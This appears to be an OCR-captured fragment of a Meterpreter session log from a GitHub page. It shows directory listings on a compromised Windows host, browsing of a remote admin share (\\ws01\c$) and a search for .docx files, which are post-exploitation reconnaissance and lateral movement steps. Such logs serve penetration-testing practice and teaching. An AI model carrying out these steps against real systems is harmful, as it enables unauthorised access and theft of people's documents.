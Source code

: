```
==========================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040777/rwxrwxrwx  4096     dir   2022-05-09 17:53:48 -0400  .dotnet
040777/rwxrwxrwx  0        dir   2022-05-09 19:33:53 -0400  .nuget
040777/rwxrwxrwx  0        dir   2022-05-09 16:57:08 -0400  .omnisharp
040777/rwxrwxrwx  0        dir   2022-05-09 19:11:13 -0400  .templateengine
040777/rwxrwxrwx  0        dir   2022-05-09 16:49:34 -0400  .vscode
040777/rwxrwxrwx  0        dir   2022-04-17 21:03:00 -0400  AppData
040777/rwxrwxrwx  0        dir   2022-04-17 21:03:00 -0400  Application Data
040555/r-xr-xr-x  0        dir   2022-04-17 21:03:26 -0400  Contacts
..[snip]..

meterpreter > ls c:\\users\\
Listing: c:\users\
==================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2021-06-05 08:26:17 -0400  All Users
040555/r-xr-xr-x  8192  dir   2022-04-18 03:51:37 -0400  Default
040777/rwxrwxrwx  0     dir   2021-06-05 08:26:17 -0400  Default User
040555/r-xr-xr-x  4096  dir   2022-04-17 21:03:26 -0400  Public
040777/rwxrwxrwx  8192  dir   2022-05-09 19:33:53 -0400  Winpwn10
100666/rw-rw-rw-  174   fil   2021-06-05 08:08:53 -0400  desktop.ini

meterpreter > ls //ws01/c$

meterpreter > ls \\\\ws01\\c$
Listing: \\ws01\C$
====================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2022-04-18 12:36:20 -0400  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2022-05-14 17:03:46 -0400  $WinREAgent
040777/rwxrwxrwx  0      dir   2022-04-18 03:51:37 -0400  Documents and Settings
000000/---------  0      fif   1969-12-31 19:00:00 -0500  DumpStack.log.tmp
040777/rwxrwxrwx  0      dir   2021-06-05 08:10:48 -0400  PerfLogs
040555/r-xr-xr-x  8192   dir   2022-05-09 18:58:12 -0400  Program Files
040555/r-xr-xr-x  4096   dir   2022-05-09 18:58:12 -0400  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2022-05-09 18:58:34 -0400  ProgramData
040777/rwxrwxrwx  0      dir   2022-05-06 19:38:10 -0400  Recovery
040777/rwxrwxrwx  4096   dir   2022-04-18 03:52:05 -0400  System Volume Information
040555/r-xr-xr-x  4096   dir   2022-04-17 21:21:15 -0400  Users
040777/rwxrwxrwx  16384  dir   2022-04-30 20:39:06 -0400  Windows
000000/---------  0      fif   1969-12-31 19:00:00 -0500  pagefile.sys
000000/---------  0      fif   1969-12-31 19:00:00 -0500  swapfile.sys
040777/rwxrwxrwx  0      dir   2022-05-09 16:29:41 -0400  tools

meterpreter > ls -S ".docx" c:/users/%username%/documents/
```
